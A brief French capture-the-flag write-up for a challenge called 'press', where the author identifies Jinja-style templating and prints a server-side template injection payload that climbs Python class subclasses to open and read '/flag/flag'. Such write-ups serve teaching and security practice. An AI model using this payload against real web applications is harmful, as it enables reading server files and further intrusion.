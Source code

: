 # press

En testant différentes syntaxes, on finit par se rendre compte qu'on a probablement affaire à
du templating jinja ou un autre truc du monde python.

En utilisant le payload suivant, on peut lire le flag:

```
{{ self.__class__.__mro__[1].__subclasses__()[111].__subclasses__()[0].__subclasses__()[0]('/flag/flag').read()}}
```

Source https://payatu.com/blog/understanding-ssti/
